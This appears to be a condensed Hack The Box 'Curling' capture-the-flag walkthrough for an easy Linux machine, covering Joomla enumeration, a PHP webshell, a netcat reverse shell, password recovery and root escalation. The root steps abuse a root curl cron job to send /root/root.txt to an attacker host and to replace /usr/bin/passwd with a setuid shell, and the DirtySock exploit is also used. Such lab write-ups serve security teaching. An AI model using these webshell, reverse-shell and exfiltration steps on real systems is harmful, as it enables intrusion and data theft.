## HTB: Curling Walkthrough

**Author**: 0xdf  
**Box Name**: Curling  
**OS**: Linux  
**Difficulty**: Easy  
**Creator**: L4mpje

---

### 🧭 Recon

**Nmap full TCP scan:**
```
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.150
```
Ports open:
- 22/tcp (SSH)
- 80/tcp (HTTP)

**Nmap scripts and version detection:**
```
nmap -p 22,80 -sV -sC -oA nmap/scripts 10.10.10.150
```
Identified:
- Apache 2.4.29 (Ubuntu)
- OpenSSH 7.6p1
- Joomla CMS on port 80

---

### 🌐 Joomla Web Enumeration

- Default page has a Joomla site titled "Curling"
- HTML source hint: `<!-- secret.txt -->`
- Navigating to `/secret.txt` reveals base64: `Q3VybGluZzIwMTgh`
- Decoded: `Curling2018!`
- Admin panel at `/administrator`, login successful with:
  - **Username**: floris
  - **Password**: Curling2018!

---

### ⚙️ Shell as www-data

**Webshell via Template Injection:**
1. Go to Templates → Beez3 → New File → PHP
2. Create `sh3ll.php` with `<?php system($_GET['0xdf']); ?>`
3. Access: `http://10.10.10.150/templates/beez3/sh3ll.php?0xdf=id`

**Interactive shell via reverse shell:**
```bash
http://10.10.10.150/templates/beez3/sh3ll.php?0xdf=cat%20/tmp/df%20|%20/bin/sh%20-i%202%3E%261%20|%20nc%2010.10.14.5%20443%20%3E%20/tmp/df
```
Listener:
```
nc -lnvp 443
```
User: `www-data`

---

### 📂 Privesc: www-data → floris

**Found in /home/floris/**:
- `password_backup`: hex-encoded multi-layer compressed file

**Extraction Process:**
1. Convert hex to binary: `xxd -r`
2. Unpack chain: `bunzip2` → `gunzip` → `bunzip2` → `tar`
3. Final file: `password.txt`

**Credentials:**
```
Username: floris
Password: 5d<wdCbdZu)|hChXll
```

Login:
```bash
su - floris
```

---

### 🔁 Privesc: floris → root

**Found folder**: `/home/floris/admin-area`

Files:
- `input`: curl config file
- `report`: output file

**pspy shows:**
```
curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```
Runs as root every minute.

**Exfil root flag via POST:**
```text
url = "http://10.10.14.5"
data = @/root/root.txt
```
Setup listener:
```
nc -nlvp 80
```

**Alternative:** Read directly from file:
```text
url = "file:///root/root.txt"
output = /tmp/.0xdf
```

---

### 🧨 Root Shell via Overwrite

Create a C program:
```c
void main() {
    setuid(0);
    setgid(0);
    execl("/bin/sh", "sh", 0);
}
```
Compile:
```
gcc -o setuid setuid.c
```
Host on HTTP server, then:
```text
url = "http://10.10.14.5/setuid"
output = /usr/bin/passwd
```
When cron runs:
```
/usr/bin/passwd → root shell
```

---

### 🧪 Beyond Root: Dirty Sock Exploit

**snapd version**: vulnerable
```
snap version
```
Upload & run DirtySock:
```
python3 dirty_sockv2.py
```
New user created:
- **Username**: dirty_sock
- **Password**: dirty_sock

Root access:
```bash
su dirty_sock
sudo su
```

**Note**: Setuid scripts (like Python) don't elevate privileges on most Linux systems.


**Source**: https://0xdf.gitlab.io/2021/03/30/htb-curling.html

